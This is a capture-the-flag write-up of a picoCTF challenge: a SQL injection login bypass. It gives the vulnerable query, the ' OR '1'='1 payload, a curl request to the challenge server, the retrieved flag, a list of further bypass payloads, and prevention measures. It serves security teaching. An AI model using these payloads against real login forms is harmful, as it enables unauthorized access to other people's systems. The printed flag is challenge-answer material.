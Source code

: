 # SQL Injection Exploitation - PicoCTF Challenge

## Challenge Overview
The challenge presents a login form with the following query structure:
```sql
SELECT * FROM users WHERE name='admin' AND password='?'
```
Our goal is to bypass authentication and retrieve the flag using SQL injection techniques.

## Understanding SQL Injection
SQL injection occurs when an attacker manipulates a SQL query by injecting malicious input. The goal is to alter the logic of the query, often leading to unauthorized access.

### The Initial Login Attempt
Upon entering the username `admin` with an unknown password, the server responds with:
```
Login failed.
```
Indicating that the credentials are incorrect.

### Bypassing Authentication
By injecting a well-crafted SQL statement into the password field, we can manipulate the query to always return `true`. The classic injection string is:
```
' OR '1'='1
```
This results in the query:
```sql
SELECT * FROM users WHERE name='admin' AND password='' OR '1'='1'
```
Since `'1'='1'` is always true, authentication is bypassed.

### Executing the Exploit via cURL
On a Linux terminal, we can send this request using `curl`:
```bash
curl -X POST "http://saturn.picoctf.net:56768/login.php" \
    -d "username=admin&password=' OR '1'='1'"
```
If successful, this grants us access to the system and displays the flag.

### Retrieved Flag
```
picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
```

## Additional SQL Injection Payloads
Other possible payloads for bypassing authentication include:
```sql
' OR 'a'='a
" OR ""="
' OR '1'='1' --
admin' --
```
These variations work by manipulating the logic of the SQL query.

## Prevention Measures
To prevent SQL injection, developers should:
1. Use **prepared statements** and **parameterized queries**.
2. Implement **input validation**.
3. Use **least privilege** database accounts.
4. Employ **Web Application Firewalls (WAF)**.
5. Monitor and log suspicious activity.

## Conclusion
SQL injection remains one of the most critical vulnerabilities in web applications. This challenge demonstrated how a poorly secured login system can be exploited to gain unauthorized access. Understanding these attacks helps developers build more secure applications.

---

This write-up thoroughly explains the exploitation process, providing both technical details and security best practices.


